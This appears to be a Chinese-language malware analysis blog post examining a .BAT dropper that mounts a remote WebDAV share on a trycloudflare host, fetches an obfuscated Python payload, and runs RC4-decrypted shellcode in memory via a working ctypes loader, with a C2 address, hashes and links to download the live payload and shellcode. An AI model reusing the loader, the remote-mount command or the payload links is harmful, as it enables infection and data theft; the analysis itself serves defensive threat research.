 ```yaml
---
title: Windows .BAT Malware Analysis
date: 2025-05-20
categories: [reverse, malware analysis]
tags: [analysis, reverse, malware]
---
```


[本样本来自卡饭论坛(Kafan)](https://bbs.kafan.cn/thread-2281511-1-1.html)

# 样本行为概述
---
1. **双击执行 .BAT 文件后，调用 `net` 组件加载远程共享磁盘：**
   ```bat
   net use Z: "\\digital-childrens-junior-cure.trycloudflare.com@SSL\DavWWWRoot" /user:your-username your-password /persistent:no
   ```
   - 通过 WebDAV 方式挂载远程共享盘。

2. **下载 Python 环境和恶意载荷，释放至用户文件夹下的“联系人”目录。**

3. **下载完成后，删除挂载：**
   ```bat
   net use Z: /delete /yes
   ```

4. **恶意载荷说明：**
   - 载荷为 Python 编写，位于 `jaka.zip` 中的 `yea.py` 文件。
   - 该文件经过混淆处理。

---

## yea.py 主要功能分析

### 1. RC4 解密 Shellcode Loader

伪代码如下：

```python
import ctypes, base64

def rc4_decrypt(key: bytes, data: bytes) -> bytes:
    # Key-Scheduling Algorithm (KSA)
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
    # Pseudo-Random Generation Algorithm (PRGA)
    i = j = 0
    out = bytearray()
    for byte in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        K = S[(S[i] + S[j]) % 256]
        out.append(byte ^ K)
    return bytes(out)

def load_and_execute():
    encrypted = base64.b64decode('encoded shellcode')
    key       = b"xWp0LaAO"
    shellcode = rc4_decrypt(key, encrypted)

    # Allocate and make memory executable
    buf = ctypes.create_string_buffer(shellcode)
    ctypes.windll.kernel32.VirtualProtect(
        ctypes.byref(buf),
        ctypes.sizeof(buf),
        0x40,                # PAGE_EXECUTE_READWRITE
        ctypes.byref(ctypes.c_ulong())
    )

    # Cast to function pointer and call
    fn = ctypes.cast(buf, ctypes.CFUNCTYPE(ctypes.c_void_p))
    fn()

if __name__ == "__main__":
    load_and_execute()
```

- **功能说明：**
  - 使用 RC4 算法和固定密钥 `xWp0LaAO` 解密 base64 编码的 shellcode。
  - 通过 `ctypes` 申请可执行内存并运行 shellcode。

---

### 2. Shellcode 溯源与分析

- 提取 shellcode 后上传 VirusTotal，发现其由 donut 工具将 DLL/EXE 文件转换为 shellcode。
- VirusTotal 文件哈希：`7f48d92abd37c4c2d1ced2a850de9ff6a9b8f31113e1853a26c0d7968ae14573`

- 使用 GitHub 工具解密 shellcode 得到原始二进制，进一步分析发现疑似为 **lazy 泄密木马** 家族。

---

## 动态行为分析

- 样本会创建一个父进程欺骗的 `notepad.exe`，分配内存后执行 APC 注入。
- C2 地址：`95.217.129.88:5921`

---

## 总结 & MITRE ATT&CK 矩阵

- 本次分析的 .BAT 样本通过远程挂载下载并释放 Python 恶意载荷，最终通过 RC4 解密和内存执行方式加载 shellcode
![MITRE ATT&CK](images/2025-5-20_mitre_layer.svg)

---

## IOC 情报

- 95.217.129.88:5921
- 7f48d92abd37c4c2d1ced2a850de9ff6a9b8f31113e1853a26c0d7968ae14573
- 0d1323d50ff0496c7ee687d65050b02de85e80b81938d7e1df204ed7320ef7c2

---

## 下载

- 核心载荷下载：[https://www.123912.com/s/HmItjv-Tm22?提取码:VeTM](https://www.123912.com/s/HmItjv-Tm22?提取码:VeTM)
- Shellcode 二进制文件下载：[https://www.123912.com/s/HmItjv-vm22?提取码:dYAH](https://www.123912.com/s/HmItjv-vm22?提取码:dYAH)

